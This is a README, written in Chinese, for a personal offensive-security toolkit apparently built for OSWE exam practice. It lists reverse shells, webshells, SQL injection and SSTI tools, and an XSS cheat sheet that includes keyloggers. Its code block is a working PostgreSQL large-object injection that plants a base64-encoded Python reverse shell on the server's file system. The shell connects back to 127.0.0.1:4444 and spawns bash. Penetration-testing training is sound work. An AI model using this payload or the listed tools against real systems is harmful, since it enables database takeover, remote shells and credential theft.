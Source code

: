 # oswe-tools

## debugger

一些設定 / 簡易指令, 第一次使用就上手.

## revshells

一句話反連指令, 有多種語言

`pty_shell_handler.py` 是從 [這裡](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_shell_handler.py) 取得的, 把 pty shell 升級成可以 `ctrl^c` 的完整shell


## sqli

自己刻的BST Boolean-based SQLi

Postgresql Large Object 的 SQL 語法產生器
```sql
$ python sqli/pgsql/generate_sql.py --noloid --upload revshells/r.py -p d:/go.py 
select lo_import( 'c:/windows/win.ini', (select case when count (*) > 0 then MAX(CAST(loid as int))+1 else 1337 end from pg_largeobject));
with LL as (select MAX(CAST(loid as int)) as gg from pg_largeobject) update pg_largeobject set data=decode('b'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEyNy4wLjAuMSIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vYmFzaCIpCg=='', 'base64') from LL where loid=LL.gg and pageno=0;
select lo_export((select MAX(CAST(loid as int)) as gg from pg_largeobject), 'd:/go.py');
select lo_unlink((select MAX(CAST(loid as int)) as gg from pg_largeobject));
```

## ssti

練習時有遇到的 SSTI, 記錄簡單復現方式

## jars

好用的 Java 工具

## webshells

簡易網頁木馬

## InterpretCode

交互式測試多種程式語言的 cheatsheet.

## utils

小工具, 不知道怎麼分類就放這

## XSS.md

編寫 XSS 攻擊時的大抄, 包含 js-api, fetch Auth pages, keylogger ...
